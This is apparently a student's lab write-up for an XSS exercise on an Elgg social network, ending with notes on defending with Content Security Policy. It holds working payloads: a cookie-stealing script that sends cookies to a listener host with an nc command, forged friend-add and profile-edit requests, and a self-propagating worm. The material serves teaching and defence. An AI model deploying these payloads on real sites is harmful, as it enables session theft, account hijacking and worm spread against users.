 # XSS Attack Lab on Elgg WebApp - Alex Baron

## Task 1: Posting a Malicious Message to Display an Alert Window

```html
<script> alert('XSS'); </script>
<!-- Or, by saving a standalone file: -->
<script type="text/javascript" src="http://www.example.com/myscripts.js">
</script>
```

## Task 2: Posting a Malicious Message to Display Cookies

```html
<script> alert(document.cookie); </script>
```

## Task 3: Stealing Cookies from the Victim's Machine

```html
<script>
 document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie)+ '>') 
</script>
```

And listen to the incoming request:
> nc -lknv 5555

## Task 4: Becoming the Victim’s Friend

The correct lines of code to complete the task is the following:

```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        var sendurl= "http://www.seed-server.com/action/friends/add?friend=59" + token + ts;
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

1. Both *elgg.security.token.__elgg_ts* and *elgg.security.token.__elgg_token* are used to get the parameters of *ts* and *token* that are needed to send the correct GET request and so the friend request. These parameters are part of the *elgg* object.
2. With *Editor Mode* only it is not possible to inject a working script because this mode automatically adds html elements into the script to adapt the text to the formatting. Thus, the script won't work. A possible solution could be to host a .js file or by intercepting the POST request sent when modifying the profile and can edit the escaped content.

## Task 5: Modifying the Victim's Profile

By looking at the POST request to modifying the profile we can build the following code:

```js
window.onload = function() {
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    
    var content = token + ts + userName + "&description=Hi I'm Samy" + guid;
    var samyGuid = 59;
    var sendurl = "http://www.seed-server.com/action/profile/edit";
    
    if(elgg.session.user.guid != samyGuid) {
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
```

In this way, whoever access Samy's profile will find his *About me* section modified with the text "Hi I'm Samy".
Line (1) is for Samy not to make this attack on himself. Removing this line and entering with Samy in his profile, he will find the modified profile and the code for the attack deleted by the new text "Hi I'm Samy".

## Task 6: Writing a Self-Propagating XSS Worm

Code of the worm:

```html
<script type="text/javascript" id="worm">
    window.onload = function() {
        var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
        var jsCode = document.getElementById("worm").innerHTML;
        var tailTag = "</" + "script>";

        //Pull the pieces togheter and apply the URI encoding
        var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        var description = "&description=Hi I'm Samy";
        
        var content = token + ts + userName + description + wormCode + guid;
        var samyGuid = 59;
        var sendurl_friend = "http://www.seed-server.com/action/friends/add?friend=59" + token + ts;
        var sendurl_profile = "http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid != samyGuid) {
            var Ajax=null;
            Ajax = new XMLHttpRequest();         
            Ajax.open("GET", sendurl_friend, true);
            Ajax.send();

            Ajax = new XMLHttpRequest();   
            Ajax.open("POST", sendurl_profile, true);
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

## Task 7: Defeating XSS Attacks Using CSP

1. In the first website (example32a.com) we can see that every script is loaded succesfully because no CSP's directive is set. For the second website (example32b.com) it is possibile to see by the configuration file that *default-src* and *script-src* directives are set. The directive *script-src* specifies valid sources for JavaScript and includes not only < script > elements but also inline script event handlers. Thus, area1, 2, 3 and 7 failed to load (which are inline scripts). The directive script-src 'self' \*.example70.com only allows scripts from the same origin and from \*.example70.com, so area4 is loaded successfully. Furthermore area6 is ok and area5 fails because this section tries to load a script from www.example60.com.
For the third website (www.example32c.com) we can see that the CSP configuration is done by the web applications. The only difference with the second website is that the directive script-src 'self' 'nonce-111-111-111' *.example70.com allows the first area to be loaded. The nonce attribute, which can be used by CSP, is useful to allow-list specific elements, such as a particular inline script.

2. As stated above the *script-src* directive blocks also inline script event handlers (onlick) so in the second and third website the button doesn't work.

3. Area5 and 6 will display ok with the following directive: script-src 'self' \*.example60.com \*.example70.com.

4. With the following directive we get the desired result: script-src 'self' 'nonce-111-111-111' 'nonce-222-222-222' \*.example60.com \*.example70.com.

5. Disallowing inline styles and inline scripts is one of the biggest security wins CSP provides. CSP response header allows web site administrators to control resources the user agent is allowed to load for a given page. With a few exceptions, policies mostly involve specifying server origins and script endpoints. This helps guard against cross-site scripting attacks.
